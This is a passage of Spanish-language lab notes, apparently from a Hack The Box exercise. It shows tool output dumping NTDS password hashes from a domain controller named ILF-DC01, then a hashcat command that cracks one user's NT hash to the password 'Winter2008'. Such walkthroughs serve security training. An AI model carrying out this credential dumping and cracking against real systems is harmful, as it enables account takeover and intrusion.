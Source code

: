 ```
NTDSUTIL    10.129.202.85   445    ILF-DC01         ILF.local\cjohnson:1104:aad3b435b51404eeaad3b435b51404ee:5fd4475a10d66f33b05e7c2f72712f93:::
NTDSUTIL    10.129.202.85   445    ILF-DC01         ILF.local\jstapleton:1108:aad3b435b51404eeaad3b435b51404ee:92fd67fd2f49d0e83744aa82363f021b:::
NTDSUTIL    10.129.202.85   445    ILF-DC01         ILF.local\gwaffle:1109:aad3b435b51404eeaad3b435b51404ee:07a0bf5de73a24cb8ca079c1dcd24c13:::
NTDSUTIL    10.129.202.85   445    ILF-DC01         LAPTOP01$:1111:aad3b435b51404eeaad3b435b51404ee:be2abbcd5d72030f26740fb531f1d7c4:::
NTDSUTIL    10.129.202.85   445    ILF-DC01         [+] Dumped 9 NTDS hashes to /home/htb-ac-1876550/.nxc/logs/ILF-DC01_10.129.202.85_2025-10-10_090236.ntds of which 7 were added to the database
NTDSUTIL    10.129.202.85   445    ILF-DC01         [*] To extract only enabled accounts from the output file, run the following command: 
NTDSUTIL    10.129.202.85   445    ILF-DC01         [*] grep -iv disabled /home/htb-ac-1876550/.nxc/logs/ILF-DC01_10.129.202.85_2025-10-10_090236.ntds | cut -d ':' -f1

```

La Jennifer tiene el siguiente Hash:
```
92fd67fd2f49d0e83744aa82363f021b
```

Que lo crackeo con:

```
hashcat -m 1000 92fd67fd2f49d0e83744aa82363f021b /usr/share/wordlists/rockyou.txt.gz 
```

Dando como respuesta:
```
92fd67fd2f49d0e83744aa82363f021b:Winter2008
```

Winter2008
